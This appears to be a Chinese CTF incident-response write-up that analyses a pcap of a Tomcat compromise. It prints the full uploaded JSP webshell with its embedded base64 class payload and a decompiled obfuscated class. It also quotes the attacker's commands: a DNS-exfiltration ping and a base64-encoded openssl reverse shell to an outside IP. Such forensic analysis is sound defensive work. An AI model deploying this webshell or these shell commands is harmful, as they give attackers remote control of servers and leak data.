# 某变异 Webshell 流量分析

## First of all

题目提供了一个 `pcap` 流量捕获文件，以及一个远程靶机

## 1

> 黑客上传的木马文件名是什么？

对流量包进行初步排查



可以发现大量的畸形 TCP 请求，可以确定是攻击者的 TCP SYN 端口扫描流量

结合题目信息，定位 HTTP Stream 进行跟踪，由于已经从先前的几个 HTTP 会话得知是 Tomcat 框架



那么 HTTP 过滤掉 GET 方法，得到



结合 Tomcat 常见的漏洞信息，定位到这条请求



可以看到上传的文件名为 `hello.jsp`

即可确定答案

```flag
flag{hello.jsp}
```

## 2

> 黑客上传的木马连接密码是什么？

将其中的载荷提取出来，得到

```java
<%!
    public static java.util.Map<String,Object> context = new java.util.HashMap<String,Object>();
    public static byte[] b64Decode(String bs) {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
            } catch (Exception f) { }
        }
        return value;
    }

    public static byte[] unc(byte[] cData) throws Exception{
        java.io.ByteArrayOutputStream out = new java.io.ByteArrayOutputStream();
        java.io.ByteArrayInputStream in = new java.io.ByteArrayInputStream(cData);
        java.util.zip.GZIPInputStream ungzip = new java.util.zip.GZIPInputStream(in);
        byte[] buffer = new byte[256];
        int n;
        while ((n = ungzip.read(buffer)) >= 0)
            out.write(buffer, 0, n);
        return out.toByteArray();
    }
%><%
    String u = "lgetwr";
    if (context.get(u) != null) {
        context.get(u).equals(new Object[]{request, response});
    } else {
        byte[] data = b64Decode("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");
        byte[] cbs = unc(data);
        java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[0],Thread.currentThread().getContextClassLoader());
        java.lang.reflect.Method method = ClassLoader.class.getDeclaredMethod(new String(new byte[]{100,101,102,105,110,101,67,108,97,115,115}), new Class[]{byte[].class, int.class, int.class});
        method.setAccessible(true);
        Class clazz = (Class) method.invoke(classLoader, new Object[]{cbs, new Integer(0), new Integer(cbs.length)});
        context.put(u, clazz.newInstance());
    }
%>
```

在这份 webshell 中，Base64 编码部分为 Java Class 文件



对其进行提取之后反编译，得到



```java
package org.apache.coyote.module;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.util.HashMap;
import java.util.Map;
import java.util.zip.GZIPInputStream;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

/* loaded from: download.class */
public class ThrowableDeserializer extends ClassLoader {
    private String a;
    private HttpServletRequest b;
    private HttpServletResponse c;
    private Map<String, Object> d;
    public static int e;
    public static int f;
    private static final String[] g = null;
    private static final String[] h = null;

    private String P() {
        return "SjIHRC7oSVIE";
    }

    public String K() {
        return "oszXCfTeXHpIkMS3";
    }

    private String C() {
        return "9d127d5606ee03e479851bf2d4037ba7";
    }

    // JADX WARN: Code restructure failed: missing block

    public void a(long r11, short r13) {
        /*
            Method dump skipped, instructions count: 1126
            To view this dump change 'Code comments level' option to 'DEBUG'
        */
        throw new UnsupportedOperationException("Method not decompiled: org.apache.coyote.module.ThrowableDeserializer.a(long, short):void");
    }

    public ThrowableDeserializer() {
        this.a = a(342748050 + 28731, (-342748050) - 15701, (int) 50427553776757L);
        this.d = new HashMap();
    }

    public ThrowableDeserializer(ClassLoader classLoader) {
        super(classLoader);
        this.a = a(43946 + ((char) (-25610)), 1414900650 + 23000, (int) 132982192347163L);
        this.d = new HashMap();
    }

    public Class a(byte[] bArr) {
        return super.defineClass(bArr, 0, bArr.length);
    }

    public static byte[] a(int i, short s, short s2, String str) throws Exception {
        long j = (i << 32) | ((s << 48) >>> 32) | ((s2 << 48) >>> 48);
        byte[] bArr = null;
        try {
            Class<?> cls = Class.forName(a((-1931709660) - (-((char) (-7405))), 36060 - ((char) (-20106)), (int) j));
            Object invoke = cls.getMethod(a((-1931709660) - (-((char) (-7404))), (-1931709660) - (-((char) (-10279))), (int) j), null).invoke(cls, null);
            bArr = (byte[]) invoke.getClass().getMethod(a((-1931709660) - (-((char) (-7423))), 36060 - ((char) (-5179)), (int) j), String.class).invoke(invoke, str);
        } catch (Exception e2) {
            try {
                Object newInstance = Class.forName(a((-1931709660) - (-((char) (-7427))), (-1931709660) - (-((char) (-6749))), (int) j)).newInstance();
                bArr = (byte[]) newInstance.getClass().getMethod(a((-1931709660) - (-((char) (-7407))), 36060 - ((char) (-23617)), (int) j), String.class).invoke(newInstance, str);
            } catch (Exception e3) {
            }
        }
        return bArr;
    }

    /* JADX WARN: Multi-variable type inference failed */
    /* JADX WARN: Type inference failed for: r0v10, types: [java.io.ByteArrayOutputStream] */
    /* JADX WARN: Type inference failed for: r0v11, types: [java.lang.Throwable] */
    /* JADX WARN: Type inference failed for: r0v12 */
    /* JADX WARN: Type inference failed for: r0v7, types: [java.io.ByteArrayOutputStream] */
    public static byte[] b(byte[] bArr) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream;
        ByteArrayOutputStream byteArrayOutputStream2 = new ByteArrayOutputStream();
        int i = f;
        GZIPInputStream gZIPInputStream = new GZIPInputStream(new ByteArrayInputStream(bArr));
        byte[] bArr2 = new byte[256];
        do {
            int read = gZIPInputStream.read(bArr2);
            if (read < 0) {
                break;
            }
            byteArrayOutputStream = byteArrayOutputStream2;
            if (i != 0) {
                break;
            }
            try {
                byteArrayOutputStream.write(bArr2, 0, read);
                byteArrayOutputStream = i;
            } catch (IOException unused) {
                throw byteArrayOutputStream;
            }
        } while (byteArrayOutputStream == 0);
        byteArrayOutputStream = byteArrayOutputStream2;
        return byteArrayOutputStream.toByteArray();
    }

    public boolean equals(Object obj) {
        Object[] objArr = (Object[]) obj;
        this.b = (HttpServletRequest) objArr[0];
        this.c = (HttpServletResponse) objArr[1];
        a(112691429740965L>>> 16, (short) (((112691429740965L ^ 22845320023103L) << 48) >>> 48));
        return false;
    }

    private static String a(int i, int i2, int i3) {
        int i4;
        int i5 = ((i ^ i3) ^ 24499) & 65535;
        if (h[i5] == null) {
            char[] charArray = g[i5].toCharArray();
            switch (charArray[0] & 255) {
                case 0:
                    i4 = 203;
                    break;
                // 根据 charArray[0] 对 i4 进行赋值
            }
            int i6 = i4;
            int i7 = i2 ^ i3;
            int i8 = (i7 & 255) - i6;
            if (i8 < 0) {
                i8 += 256;
            }
            int i9 = ((i7 & 65535) >>> 8) - i6;
            if (i9 < 0) {
                i9 += 256;
            }
            for (int i10 = 0; i10 < charArray.length; i10++) {
                int i11 = i10 % 2;
                int i12 = i10;
                char c = charArray[i12];
                if (i11 == 0) {
                    charArray[i12] = (char) (c ^ i8);
                    i8 = (((i8>>> 3) | (i8 << 5)) ^ charArray[i10]) & 255;
                } else {
                    charArray[i12] = (char) (c ^ i9);
                    i9 = (((i9>>> 3) | (i9 << 5)) ^ charArray[i10]) & 255;
                }
            }
            h[i5] = new String(charArray).intern();
        }
        return h[i5];
    }
}
```

同时，在 webshell 中看到了这步操作

```java
java.lang.reflect.Method method = ClassLoader.class.getDeclaredMethod(new String(new byte[]{100,101,102,105,110,101,67,108,97,115,115}), new Class[]{byte[].class, int.class, int.class});

// Decode ASCII

java.lang.reflect.Method method = ClassLoader.class.getDeclaredMethod(new String(new byte[]{"defineClass"}), new Class[]{byte[].class, int.class, int.class});
```

即可确定答案

```flag
flag{SjIHRC7oSVIE}
```

## 3

> 分析黑客上传的木马, 找到木马通信 key 是什么？

在上题中

```flag
flag{oszXCfTeXHpIkMS3}
```

## 4

> 黑客连接 webshell 后执行的第一条命令是什么？

经过对 webshell 进行调试，并结合一定猜测，可以确定 webshell 的通信加密方式为 AES+gzip



其解密得到的是 Java Class 数据



将攻击者发送的载荷依次进行处理，得到

```bash
/bin/bash -c ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.
/bin/bash -c echo bWtmaWZvIC90bXAvcmV2c2hlbGw7IC9iaW4vYmFzaCAtaSA8IC90bXAvcmV2c2hlbGwgMj4mMSB8IG9wZW5zc2wgc19jbGllbnQgLXF1aWV0IC1jb25uZWN0IDE5Mi4xNjguMzEuMTkwOjIwMjQgLWtleWxvZ2ZpbGUga2V5LmxvZyA+IC90bXAvcmV2c2hlbGw7IHJtIC1mIC90bXAvcmV2c2hlbGw=|base64 -d|bash
```

即可得到答案

```flag
flag{ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.}
```

## 5

> 这个 webshell 是根据什么进行回显的？（提交 ip 或域名）

根据其指令

```bash
ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.
```

可以确定为 dns 数据回传，即可确定答案

```flag
flag{d5454c8975.ipv6.1433.eu.org.}
```

## 6

> 黑客留下后门的反连的 IP 和 PORT 是什么？（ `flag{IP|PORT}` )

首先，根据攻击者的第二条 webshell 流量

```bash
/bin/bash -c echo bWtmaWZvIC90bXAvcmV2c2hlbGw7IC9iaW4vYmFzaCAtaSA8IC90bXAvcmV2c2hlbGwgMj4mMSB8IG9wZW5zc2wgc19jbGllbnQgLXF1aWV0IC1jb25uZWN0IDE5Mi4xNjguMzEuMTkwOjIwMjQgLWtleWxvZ2ZpbGUga2V5LmxvZyA+IC90bXAvcmV2c2hlbGw7IHJtIC1mIC90bXAvcmV2c2hlbGw=|base64 -d|bash
```

对其进行解码，得到

```bash
mkfifo /tmp/revshell; /bin/bash -i </tmp/revshell 2>&1 | openssl s_client -quiet -connect 192.168.31.190:2024 -keylogfile key.log > /tmp/revshell; rm -f /tmp/revshell
```

即可确定答案

```flag
flag{192.168.31.190|2024}
```

## 7

> 黑客通过后门反连执行的第一条命令是什么？

由于攻击者部署的 webshell 较难进行二次利用，所以直接上传蚁剑的 webshell



成功连接



在靶机上找寻 `openssl s_client` 通信的 key file

```bash
(remote) root@ip-10-0-10-1:/# find / -name "key.log"
/opt/apache-tomcat-8.5.19/bin/key.log
```

将文件获取到本地之后，导入 wireshark



成功解密反连通信



并定位到攻击者执行的第一条指令



即可得到答案

```flag
flag{ls}
```

## 8

> 请上机排查黑客新增的后门程序会连接到哪台恶意主机？（提交主机 IP|port）如 (`flag{127.0.0.1|1234}` )

在 `/root` 目录下原有一个二进制文件 `/root/update`

经过确认，相关操作位于 `/root/.bashrc` 的最后一行

```bash
rm /root/flag.txt /root/update /root/lock  > /dev/null 2>&1
```

同时，确认 `/root/update` 在 `/root/.data/update.bak` 有一个备份

由于是模拟环境，直接暴力一点

```bash
chmod +x /root/.data/update.bak
```

将备份文件添加可执行权限之后，直接运行，然后查看网络连接信息

```bash
(remote) root@ip-10-0-10-1:/# netstat -anopt
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 0.0.0.0:222             0.0.0.0:*               LISTEN      501/sshd: /usr/sbin  off (0.00/0/0)
tcp        0      0 10.0.10.1:54936         169.254.169.254:80      TIME_WAIT   -                    timewait (55.44/0/0)
tcp        0      1 10.0.10.1:41482         10.10.13.37:4444        SYN_SENT    853/./update.bak     on (63.45/6/0)
tcp        0      0 10.0.10.1:37528         52.82.213.39:443        ESTABLISHED 490/amazon-ssm-agen  keepalive (25.48/0/0)
tcp        0      0 10.0.10.1:54926         169.254.169.254:80      TIME_WAIT   -                    timewait (55.42/0/0)
tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      498/java             off (0.00/0/0)
tcp6       0      0 :::8009                 :::*                    LISTEN      498/java             off (0.00/0/0)
tcp6       0      0 :::8081                 :::*                    LISTEN      498/java             off (0.00/0/0)
tcp6       0      0 :::222                  :::*                    LISTEN      501/sshd: /usr/sbin  off (0.00/0/0)
tcp6       0      0 10.0.10.1:48556         8.129.29.180:9998       ESTABLISHED 498/java             off (0.00/0/0)
tcp6       0      0 10.0.10.1:8081          218.106.157.106:57240   TIME_WAIT   -                    timewait (50.46/0/0)
tcp6       0    769 10.0.10.1:53242         8.129.29.180:9991       ESTABLISHED 498/java             on (0.18/0/0)
```

即可确定答案

```flag
flag{10.10.13.37|4444}
```

## 9

> 黑客加密了 `/root` 目录下的一个重要文件，请你将解密后的文件内容作为 flag 提交

:::warning

截止本部分完成之时，靶机存在有 bug



原始文件与被加密后的文件同时存在

:::

在 `/root` 目录下发现 Python Pyinstaller 的目录特征



在其中发现了二进制文件 `init`，经过检查，为 `Python 3.9` 由 `Pyinstaller` 编译得到的二进制文件

对其进行反编译，得到

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 3.9

import subprocess
import os
import asyncio
lock_file = '/root/lock'
update_file = '/root/update'
flag_file = '/root/flag.txt'
lock_backup = '/root/.data/lock.bak'
update_backup = '/root/.data/update.bak'
os.system(f'''cp {lock_backup} {lock_file}''')
os.system(f'''cp {update_backup} {update_file}''')
os.chmod(update_file, 511)
os.chmod(lock_file, 511)
update_process = subprocess.Popen([
    '/bin/bash',
    '-c',
    update_file])
lock_process = subprocess.Popen([
    '/bin/bash',
    '-c',
    f'''{lock_file} /root/flag.txt /root/flagen.txt'''])
update_process.wait()
lock_process.wait()
```

发现其调用了 `/root/lock` 文件对 `/root/flag.txt` 执行了加密行为，对 `/root/lock` 文件进行分析



```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
    FILE *v4; // r12
    FILE *v5; // r13
    char *v6; // rax
    char v7; // dl
    char *v8; // rax
    char v9; // dl
    size_t v10; // rax
    __int64 v11; // rdx
    char *v12; // rax
    __int64 v13; // rcx
    unsigned __int64 v14; // rsi
    unsigned int v15; // eax
    unsigned int v16; // eax
    unsigned int v17; // edx
    __int64 v18; // rdi
    _BYTE v19[16]; // [rsp+0h] [rbp-178h] BYREF
    char ptr[16]; // [rsp+10h] [rbp-168h] BYREF
    char v21[16]; // [rsp+20h] [rbp-158h] BYREF
    char v22[16]; // [rsp+30h] [rbp-148h] BYREF
    char v23[312]; // [rsp+40h] [rbp-138h] BYREF

    if (a1 == 3)
    {
        v4 = fopen(a2[1], "rb");
        if (v4)
        {
            v5 = fopen(a2[2], "wb");
            if (v5)
            {
                v6 = v19;
                do
                {
                    v7 = 65 - (unsigned __int8)v19 + (_BYTE)v6++;
                    *(v6 - 1) = v7;
                }
                while (v6 != ptr);
                v8 = ptr;
                do
                {
                    v9 = 97 - (unsigned __int8)ptr + (_BYTE)v8++;
                    *(v8 - 1) = v9;
                }
                while (v8 != v21);
                    AES_set_encrypt_key(v19, 128LL, v23);
                    fwrite(ptr, 1uLL, 0x10uLL, v5);
                while (1)
                {
                    v10 = fread(v21, 1uLL, 0x10uLL, v4);
                    if (!v10)
                        break;
                    if (v10 <= 0xF)
                    {
                        v11 = (unsigned int)(16 - v10);
                        v12 = &v21[v10];
                        v13 = 0x101010101010101LL * (unsigned __int8)v11;
                        if ((unsigned int)v11 >= 8 )
                        {
                            *(_QWORD *)v12 = v13;
                            *(_QWORD *)&v12[(unsigned int)v11 - 8] = v13;
                            v14 = (unsigned __int64)(v12 + 8) & 0xFFFFFFFFFFFFFFF8LL;
                            v15 = (v11 + (_DWORD)v12 - v14) & 0xFFFFFFF8;
                            if (v15>= 8 )
                            {
                                v16 = v15 & 0xFFFFFFF8;
                                v17 = 0;
                                do
                                {
                                    v18 = v17;
                                    v17 += 8;
                                    *(_QWORD *)(v14 + v18) = v13;
                                }
                                while (v17 < v16);
                            }
                        }
                        else if ((v11 & 4) != 0 )
                        {
                            *(_DWORD *)v12 = v13;
                            *(_DWORD *)&v12[v11 - 4] = v13;
                        }
                        else if ((_DWORD)v11 )
                        {
                        *v12 = v11;
                        if ((v11 & 2) != 0 )
                            *(_WORD *)&v12[v11 - 2] = v13;
                        }
                    }
                    AES_cbc_encrypt(v21, v22, 16LL, v23, ptr, 1LL);
                    fwrite(v22, 1uLL, 0x10uLL, v5);
                }
